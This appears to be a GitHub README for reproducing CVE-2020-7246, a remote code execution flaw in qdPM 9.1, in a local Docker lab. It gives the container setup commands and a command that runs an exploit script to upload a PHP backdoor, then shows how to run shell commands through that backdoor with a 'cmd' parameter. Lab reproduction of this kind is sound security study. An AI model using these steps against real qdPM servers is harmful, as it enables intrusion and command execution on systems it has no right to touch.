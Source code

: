 # CVE-2020-7246

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2020-7246>


## PoC / Exploit
 * <https://docs.google.com/document/d/13ZZSm0DL1Ie6r_fU5ZdDKGZ4defFqiFXMG--zDo8S10/edit>
 * <https://www.exploit-db.com/exploits/47954>

## Environment used
* Ubuntu 18.04 LTS
* qdPM 9.1

## Requirements
* docker
## Reproduction 
Commands to build the environment
```shell script
docker load -i CVE-2020-7246.dockerimage.tar.gz
docker run -it -p 8080:80 cve20207246
```
Command to inject malicious php file
```shell script
python3 qdPM-exploit.py -url http://localhost:8080/ -u teste@localhost.com -p teste
```
* Next open the browser on the following link: <http://localhost:8080//uploads/users/>
* Select one of the php files of the format *-backdoor.php, getting a url in the format of <http://localhost:8080//uploads/users/*-backdoor.php>
* Add the ``` ?cmd=whoami ``` at the end of the url and ``` www-data ``` should appear as the response